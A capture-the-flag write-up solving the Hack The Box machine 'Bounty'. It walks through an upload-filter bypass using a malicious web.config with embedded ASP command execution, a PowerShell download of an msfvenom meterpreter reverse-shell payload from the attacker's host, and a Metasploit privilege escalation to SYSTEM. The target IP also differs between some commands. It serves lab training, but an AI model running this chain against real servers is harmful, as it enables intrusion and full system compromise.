:slug: bounty-writeup/
:date: 2018-10-29
:category: attacks
:subtitle: How to resolve HTB Bounty
:tags: security, htb, pwn, web
:image: bounty.png
:alt: Bounty writeup
:description: Bounty is a Windows Hack the Box (HTB) machine that has several vulnerabilities where an attacker can upload malicious files and get system access. In this article we present how to exploit the vulnerabilities of that machine and how to gain access as Administrator and obtain the root flag.
:keywords: HTB, Security, Hack the Box, Web, Writeup, Bounty.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= Bounty Writeup

== Scanning Phase

First of all we check the IP of the
https://www.hackthebox.eu/home/machines/profile/142[Bounty]
machine and try a +ping+
to see if we have access.

image::bounty-ip.png[ip]

.ping
[source, bash]
----
host$ ping -c2 10.10.10.93
----

image::ping.png[ping]

Then scan the ports with +nmap+,
in this case we're going to use basic +nmap+.

[source, bash]
----
host$ nmap 10.10.10.93
----

And we see that there is only one port open +port 80+.

image::nmap.png[nmap]

Then we try to access to the +port 80+ with our browser
and it opens a web page with an image of Merlin.

image::web.png[web-page]

As we see in this page
there is nothing in there more than an image,
so we're going to scan the whole web server with +dirbuster+
to check if we can access something useful.

[source, bash]
----
host$ dirb http://10.10.10.91
----


image::dirb.png[dirb-scan]

Here we found a folder
where uploaded files are stored,
we need the page of the upload functionality,
with +dirbuster+ and some options
we can set different extensions
and obtain what we are looking for.
Since is a +Windows+ machine,
we are going to use +asp+ and +aspx+ extensions.

[source, bash]
----
host$ dirb http://10.10.10.91 -X .asp,.aspx
----

image::dirb2.png[dirb-scan2]
image::upload-page.png[upload-page]

== Getting user

In the last step we got an upload page,
but with no further instructions.
There we can try to upload an image
and check the result.

image::upload1.png[upload1]

But if we try with a webshell in +aspx+ or +asp+
it returns an error.

image::upload2.png[upload2]

The web server has a filter,
that possibly checks the extension
of the file uploaded,
if you try with double extension
it won't work either.

So what we can do?
In +Windows+ there is 3 major types of extensions:
+asp+, +aspx+ and +config+.
We already tried with an +asp+/+aspx+ extension,
what happens if we upload a +web.config+ file?

[source, xml,linenums]
----
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
----

image::upload1.png[upload11]

We can see that result is positive.
The +web.config+ file is used
by +IIS+ servers
to store settings
that comes with the installation of the API.


With this we can start to
exploit this machine.
There is a vulnerability
on the +web.config+ file processing,
that could allow an attacker to execute code remotely
by injecting +asp+ code in the file
(More information can be found
link:https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/[here]
).

So in order to have remote code execution (+RCE+)
we need to add the following lines
to our +web.config+ file:

----
<!--
<%
Response.write("-"&"->")
Response.write("</p><pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><p><!-"&"-")
%>
-->
----

Then we upload it
and access the file via the web as before.

image::rce-ok.png[rce-ok]

*Eureka!* With this we can have our user flag,
but we want an active shell
that we can use for further enumeration.
For this we can use +msfvenom+,
this is a tool
that creates payloads
in order to gain access to a machine,
it installed by default on +Kali+,
it also comes with the installation of +Metasploit+.
Then upload our file to the server
with our +RCE+
and start a web server on our side
to download our exploit.

First of all,
the exploit with +msfvenom+:

[source, bash]
----
host$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.ip.ip.ip LPORT=port -f exe -o myexploit.exe --smallest
----

This will create a malicious file,
when we executed on the server
will give us a reverse shell
with our +RCE+ file
using +meterpreter+,
this is an advanced, dynamically extensible payload
that uses in-memory +DLL+ injection stagers
and is extended over the network at runtime.

Then we need to start a web server
in our machine,
we can do it with +Python+ by running:

[source, bash]
----
host$ python -m SimpleHTTPServer 7000
----

To make the server
to download our file
we can use the next +PowerShell+ command
in our +web.config+ file
replacing the +whoami+ one:

[source, xml]
----
Set cmd1 = wShell1.Exec("cmd.exe /c powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://ip.ip.ip.ip:7000/myexploit.exe', 'C:\Windows\Temp\myexploit.exe')")
----

Upload it, and then open it on a private tab.
We can see now
that the server downloaded our file.

image::download.png[download]

Then we need to start our listener.
We can use +Metasploit+ to do it:

[source, bash]
----
host$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST ip.ip.ip.ip
msf exploit(multi/handler) > set LPORT port
msf exploit(multi/handler) > run
----

With this we are ready
to initiate our reverse shell.
In order to do this
we need to run our exploit on the server
with the same +RCE+ method as before,
changing the command to the following:

[source, xml]
----
Set cmd1 = wShell1.Exec("cmd.exe /c C:\Windows\Temp\myexploit.exe")
----

Upload it, open the page of the +web.config+ file
and we have our reverse shell.

image::reverse-shell.png[reverse-shell]

== Getting root

With +meterpreter+
we can start to enumerate the server.

image::sys-info.png[sys-info]

And we see
that the server has an +x64 Architecture+,
we are going to repeat the process
(+msfvenom+, upload, handler, run)
but now with the payload:

----
windows/x64/meterpreter/reverse_tcp
----

Then when we have another session opened,
we are going to run the next:

[source,bash]
----
meterpreter > run post/multi/recon/local_exploit_suggester
----

image::exploit-suggester.png[exploit-suggester]

Here we got some exploits
that we can use to elevate to +Administrator+,
we are going to use the first one with:

[source,bash]
----
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > set SESSION sessionnum
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT port
msf exploit(windows/local/ms10_092_schelevator) > set LHOST ip.ip.ip.ip
msf exploit(windows/local/ms10_092_schelevator) > run
----

When it finishes,
we will have a new session created
and with user +NT Authority\System+.

image::admin.png[admin]

With this we can read our +root+ flag.

We learned on this challenge
a vulnerability with the +web.config+ file,
to always check the +architecture+ when we access as an user on a machine
and to use some of the +meterpreter+ commands.
